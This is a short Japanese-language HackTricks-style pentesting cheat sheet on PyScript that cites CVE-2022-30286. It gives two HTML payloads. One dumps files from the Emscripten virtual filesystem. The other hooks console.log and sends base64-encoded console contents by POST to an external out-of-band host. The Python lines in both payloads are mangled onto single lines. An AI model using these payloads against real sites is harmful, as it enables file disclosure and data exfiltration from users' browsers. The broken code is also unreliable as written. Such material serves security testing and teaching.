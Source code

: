 # Pyscript

{{#include ../../banners/hacktricks-training.md}}

## PyScript ペンテスティングガイド

PyScriptは、PythonをHTMLに統合するために開発された新しいフレームワークで、HTMLと一緒に使用できます。このチートシートでは、ペネトレーションテストの目的でPyScriptを使用する方法を見つけることができます。

### Emscripten仮想メモリファイルシステムからのファイルのダンプ/取得:

`CVE ID: CVE-2022-30286`\
\
コード:
```html
<py-script>
with open('/lib/python3.10/site-packages/_pyodide/_base.py', 'r') as fin: out
= fin.read() print(out)
</py-script>
```
![](https://user-images.githubusercontent.com/66295316/166847974-978c4e23-05fa-402f-884a-38d91329bac3.png)

### [Emscripten仮想メモリファイルシステムのOOBデータ流出（コンソールモニタリング）](https://github.com/s/jcd3T19P0M8QRnU1KRDk/~/changes/Wn2j4r8jnHsV8mBiqPk5/blogs/the-art-of-vulnerability-chaining-pyscript)

`CVE ID: CVE-2022-30286`\
\
コード:
```html
<py-script>
x = "CyberGuy" if x == "CyberGuy": with
open('/lib/python3.10/asyncio/tasks.py') as output: contents = output.read()
print(contents) print('
<script>
console.pylog = console.log
console.logs = []
console.log = function () {
console.logs.push(Array.from(arguments))
console.pylog.apply(console, arguments)
fetch("http://9hrr8wowgvdxvlel2gtmqbspigo8cx.oastify.com/", {
method: "POST",
headers: { "Content-Type": "text/plain;charset=utf-8" },
body: JSON.stringify({ content: btoa(console.logs) }),
})
}
</script>
')
</py-script>
```
![](https://user-images.githubusercontent.com/66295316/166848198-49f71ccb-73cf-476b-b8f3-139e6371c432.png)
